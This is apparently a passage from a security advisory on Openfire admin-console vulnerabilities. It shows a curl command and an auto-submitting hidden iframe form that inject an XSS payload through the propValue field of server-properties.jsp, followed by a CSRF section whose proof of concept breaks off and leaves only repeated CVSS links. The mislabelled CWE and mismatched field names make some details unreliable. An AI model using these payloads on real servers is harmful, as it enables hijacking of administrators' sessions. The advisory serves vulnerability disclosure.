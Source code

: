 #### *propValue* variable from *server-properties.jsp*

The following curl command allows reproducing the attack against the Openfire *server-properties.jsp* page:

```
curl --data="propName=adminConsole.port&propValue=9090%22+onmouseover%3D%22alert%28%27xxs%27%29%22+x%3D%22&encrypt=false&save=Save+Property" http://OpenFireServerIP:9090/server-properties.jsp --cookie="JSESSIONID=XXX"
```

The folling code allows exploiting the vulnerability:

```
<iframe style="display:none" name="xss-frame"></iframe>
<form id="xss-form" action="http://OpenFireServerIP:9090/server-properties.jsp" method="post" target="xss-frame" >
<input type="text" name="propValue" value="=adminConsole.port" >
<input type="text" name="searchname" value="9090%22 onmouseover=%22alert('XSS')%22 x="/>
<input type="text" name="encrypt" value="false" >
<input type="text" name="save" value="Save Property" >
</form>

<script>document.getElementById("xss-form").submit()</script>
```


###Affected versions

* Version 4.0.0 and 4.0.1


## Several CSRF Vulnerabilities identified in Openfire 3.10.2

**Access Vector**: remote

**Security Risk**: low

**Vulnerability**: CWE-312

**CVSS Base Score**: 5.4

[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O

### Vulnerability Description

Several CSRF vulnerabilities have been found on different pages of the admin panel of the OpenFire web server. Throught this attack an attacker could drive a valid user to execute unwittingly a request on the OpenFire sever.


### Proof of Concept

#### *connection-settings-external-components.jsp* page is vulerable to a CSRF attack.

The following HTML iframe command allows reproducing the attack against the Openfire *dwr/exec/downloader.installPlugin.dwr* page:


[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O